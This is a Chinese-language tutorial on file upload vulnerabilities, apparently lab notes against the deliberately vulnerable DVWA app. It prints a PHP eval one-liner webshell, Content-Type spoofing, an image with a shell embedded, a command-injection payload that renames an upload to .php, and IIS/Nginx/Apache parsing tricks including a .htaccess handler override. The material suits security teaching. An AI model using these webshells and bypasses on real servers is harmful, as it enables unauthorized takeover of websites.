101-A1-文件上传漏洞原理及介绍

# 201-A13-文件上传漏洞（上）

---

## 1. 漏洞产生原理：

一般对于上传漏洞的概念定义如下：由于程序员在对用户文件上传功能实现代码没有严格限制用户上传的文件后缀以及文件类型或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。打个比方来说，如果你使用 windows 服务器并且以 php 作为服务器端的动态网站环境，那么在你的网站的上传功能处，就一定不能让用户上传 php 类型的文件，否则他上传一个 webshell，你服务器上的文件就可以被他任意更改了。

利用方法：
如果程序里面存在这种漏洞，那么恶意攻击者可以直接向你的服务器上传一个 webshell( 又称 ASP 木马、PHP 木马、JAVA木马等即利用服务器端的文件操作语句写成的动态网页，可以用来编辑你服务器上的文件 )，从而控制你的网站。


 ## 2. 利用上传页面来上传可执行脚本


首先我们输入dvwa目标网站，用户名admin，密码 password，将DVWA漏洞演示环境的安全级别设置为Low级别。
注意:我们直接上传php脚本文件以达到拿webshell,获得目标网站控制权限。
我们先制作php格式的一句话木马内容为：

```
 <?php @eval($_POST[pass]);?>
```

这里eval() 函数可以把字符串按照 PHP 代码来计算。pass可以改成任意值。



接下来直接上传我们的php一句话木马



上传成功并回显 ../../hackable/uploads/test.php succesfully uploaded!
打开路径:   http://IP/hackable/uploads/test.php显示空白则为执行成功




然后进行进一步的操作，打开菜刀，右键添加新的shell，地址是http://[IP]/hackable/uploads/test.php ，密码为pass。



这时我们利用中国菜刀可以对服务器上文件进行任意操作。



从而成功获取该网站的管理权限。



## 2.1 源代码分析:



## 3. Dvwa漏洞环境 Medium 级别的File Upload 漏洞

步骤1：利用上传页面来上传可执行脚本
我们需要将DVWA环境设置为Medium级别
按照Part 1 思路来尝试，我们直接上传php脚本木马。
发现上传失败，提示我们只能接受JPEG或PNG图像。




代码分析：

```
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ]; 获取上传文件的名称
$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];  获取上传文件的类型
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ]; 获取上传文件的大小
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&   ( $uploaded_size < 100000 ) ) 
```

发现对上传文件的类型和大小进行了判断。只允许上传JPEG或PNG图像，并且文件不能大于100000字节


由于HTTP中的Content-Type可以被伪造，我们可以通过修改Content-Type的值来绕过判断。

打开Burpsuite，抓包绕过上传判断



将Php对应的filetype类型修改为`image/jpeg` 即可绕过判断。



然后点击Forward 发现回显上传成功.



上菜刀链接即可.


上传文件的逻辑是先取到HTTP中的Content-Type，然后判断Type是不是 image/jpeg 或者 image/png，如果不是就说明上传的文件非法，不予上传。这种上传判断流行在10年前左右，那个时候很多论坛的传图功能都是用的这种简单的判断方式。由于HTTP中的Content-Type可以被伪造，所以攻击者可以轻易修改Content-Type的值，使得文件成功上传。


## 4. dvwa漏洞环境 High 级别的File Upload 漏洞


分别上传jpg  php 格式的脚本木马，发现同样都是上传失败
将DVWA环境设置为Medium级别,然后分别上传jpg php 格式的脚本木马


代码中加了一个比较强力的判断：

```
if( ( strtolower( $uploaded_ext ) =="jpg"|| strtolower( $uploaded_ext ) =="jpeg"|| strtolower( $uploaded_ext ) =="png") && ( $uploaded_size <100000) && getimagesize( $uploaded_tmp ) )
```

最重要的是这句 getimagesize( $uploaded_tmp )，对图片的命名和类型进行了严格的限制.
发现High level对图片做了验证，也就是不能上传其他文件。改后缀名和Content-Type也不行，必须要保证上传的是一个图片。所以必须要构造一个系统“认可”的图片上传上去才行.也就是用文件头欺骗的方式来解决这个问题。

## 4.1制造图片马，插入脚本上传

判断图片一般是判断文件头，我们伪造一个图片的文件头，然后插入脚本代码。
首先使用记事本对正常图片文件编辑，将php一句话代码写到图片最下面，保存。这样就可以欺骗文件类型的检测。

我们插入代码的内容为：

```
 <?php @eval($_POST[pass]);?>
```




这个时候文件上传的漏洞我们已经利用得不能再利用了，在high模式下，需要用到其他漏洞，比如命令行注入，在命令行注入漏洞中利用过滤不严。详情可参考（详情参考命令行注入 High教程）

用到的命令:127.0.0.1 |&| mv /var/www/html/hackable/uploads/xxxx.png /var/www/html/hackable/uploads/xxxx.php  将文件xxxx.jpg改名为xxxx.php
这个时候文件xxxx.jpg成功为我们改名为xxxx.php
访问url：http://172.16.12.2/hackable/uploads/xxxx.php
脚本成功运行
继续上菜刀连接之

## 5.解析漏洞

参考连接：https://www.secpulse.com/archives/3750.html

### 5.1 IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
sp.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 *.asp、*.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 sp.asp，那么

```
/sp.asp/1.jpg
```

 

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
sp.asp;.jpg
```

 

会被服务器看成是sp.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/sp.asa
/sp.cer
/sp.cdx
```

 

### 5.2 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞


在默认Fast-CGI开启状况下,上传一个名字为sp.jpg的文件，内容为:

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
```

然后访问sp.jpg/.php,在这个目录下就会生成一句话木马 shell.php

### 5.3 Nginx <8.03 空字节代码执行漏洞

影响版:0.5.* ,0.6.* , 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码上传，访问`xxx.jpg%00.php`来执行其中的代码

```
xxx.jpg%00.php 
```

### 5.4 Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 sec.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把sec.php.owf.rar解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个sec.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀


### 5.5 其他

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单。

若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch "sec.jpg"> SetHandler application/x-httpd-php </FilesMatch> 
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。


